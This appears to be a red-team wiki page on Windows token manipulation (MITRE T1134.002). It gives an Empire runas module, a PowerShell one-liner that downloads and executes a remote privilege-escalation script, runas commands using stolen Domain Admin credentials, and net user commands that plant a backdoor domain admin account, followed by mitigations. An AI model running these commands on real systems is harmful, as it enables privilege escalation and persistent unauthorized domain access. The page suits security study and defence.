


# Create Process with Token

### T1134.002: Create Process with Token

**Permissions Required: **<mark style="color:green;">**User**</mark>

**Description**

Adversaries may create a new process with a different token to escalate privileges and bypass access controls. Processes can be created with the token and resulting security context of another user using features such as `CreateProcessWithTokenW` and `runas`.

Creating processes with a different token may require the credentials of the target user, specific privileges to impersonate that user, or access to the token to be used (ex: gathered via other means such as Token Impersonation/Theft or Make and Impersonate Token).

[\[Source\]](https://attack.mitre.org/techniques/T1134/002/)

## Techniques

### Empire

Passing more complicated arguments to this module can be unreliable. It may be worth creating Batch or `PowerShell` scripts on the target system which contain the desired command to be run and then executing them from this module.

Otherwise, if an interactive foothold has been obtained simply specifying `Powershell.exe` or `cmd.exe` without additional arguments and the record option "ShowWindow" set to "True" will produce a command window over the interactive session.

```
usemodule/powershell/management/runas
```



### Get-WinLogonTokenSystem

```powershell
iex(iwr -usebasicparsing "https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1");Get-WinLogonTokenSystem
```

### Runas

It is not possible to pass the password parameter directly with Runas. The password will be prompted for interactively within the terminal.

```
Runas /user:<Domain>\<Username> powershell.exe
```


## Scenario

In the scenario below we are logged onto a domain workstations (WS01). We have obtained credentials for the Domain Administrator.

Using `Runas.exe` we elevate from our standard user account to a command shell as _moe_, the Domain Administrator.


Using the known set of credentials we use runas to spawn `PowerShell` as the Domain Administrator.

```
Runas /user:Security.local\Moe powershell.exe
```




Now, with a privilege command shell for the Domain Administrator we can do many things. For example we can create persistence by setting up a new account and promoting the account to a Domain Administrator.

```
net user /add /domain NewAdmin Password123 
net localgroup "Domain Admins" /domain /add NewAdmin
```

## Mitigation

* Limit permissions so that users and user groups cannot create tokens. This setting should be defined for the local system account only. GPO: Computer Configuration > \[Policies] > Windows Settings > Security Settings > Local Policies > User Rights Assignment: Create a token object. Also define who can create a process level token to only the local and network service through GPO: Computer Configuration > \[Policies] > Windows Settings > Security Settings > Local Policies > User Rights Assignment: Replace a process level token.
* Administrators should log in as a standard user but run their tools with administrator privileges using the built-in access token manipulation command `runas`.
* An adversary must already have administrator level access on the local system to make full use of this technique; be sure to restrict users and accounts to the least privileges they require.

## Further Reading

**Runas | Microsoft Docs:** [https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\))

**Invoke-Runas - Empire Module:** [https://www.infosecmatter.com/empire-module-library/?mod=powershell/management/runas](https://www.infosecmatter.com/empire-module-library/?mod=powershell/management/runas)
